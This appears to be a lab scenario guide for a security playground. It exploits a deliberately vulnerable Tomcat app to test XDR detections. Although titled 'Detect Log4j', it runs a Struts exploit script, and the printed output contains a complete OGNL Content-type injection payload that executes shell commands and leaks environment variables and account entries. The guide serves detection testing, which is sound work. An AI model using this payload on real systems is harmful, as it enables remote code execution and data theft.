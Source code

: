 # Scenario: Detect Log4j

## Prerequisites

- Vision One XDR for Containers linked with Playground One VPC
- Playground One ECS Cluster (Any variant)
  - Running app: Java-Goof running on vulnerable Tomcat
- Extracted contents of `exploit.zip`

If you need to extract the exploits unzip with the password `virus`:

```sh
$ cd ${ONEPATH}
$ unzip exploits.zip
```

## Exploiting

First, retrieve the load balancer DNS name

```sh
$ pgo -o ecs
```

Example output with ECS EC2:

```sh
cluster_name_ec2 = "playground-ecs-ec2"
loadbalancer_dns_ec2 = "playground-ecs-ec2-135067951.eu-central-1.elb.amazonaws.com"
```

If you are using ECS Fargate, the variable is named `loadbalancer_dns_fargate`.

### Exploit

Run:

```sh
$ cd ${ONEPATH}/exploits/struts/
$ struts-exploit.sh playground-ecs-ec2-135067951.eu-central-1.elb.amazonaws.com
```

Expexted result:

```ascii
*   Trying 18.195.245.32:80...
* Connected to playground-ecs-ec2-135067951.eu-central-1.elb.amazonaws.com (18.195.245.32) port 80 (#0)
> GET /todolist/todolist/ HTTP/1.1
> Host: playground-ecs-ec2-135067951.eu-central-1.elb.amazonaws.com
> User-Agent: curl/7.81.0
> Accept: */*
> Content-type: %{(#_='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='env').(#cmds={'/bin/bash','-c',#cmd}).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 
< Date: Tue, 01 Aug 2023 12:45:58 GMT
< Transfer-Encoding: chunked
< Connection: keep-alive
< 
LD_LIBRARY_PATH=/usr/local/tomcat/native-jni-lib
ECS_CONTAINER_METADATA_URI_V4=http://169.254.170.2/v4/46de0786-9920-42aa-bff4-c17fd4d273c5
CATALINA_HOME=/usr/local/tomcat
LANG=C.UTF-8
HOSTNAME=ip-10-0-175-104.eu-central-1.compute.internal
...
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/bin/false
messagebus:x:101:101::/var/run/dbus:/bin/false
* transfer closed with outstanding read data remaining
* Closing connection 0
curl: (18) transfer closed with outstanding read data remaining
```

Vision One Observed Attack Techniques:

![alt text](images/xdr_for_containers-ecs-struts-01.png "Exploit")
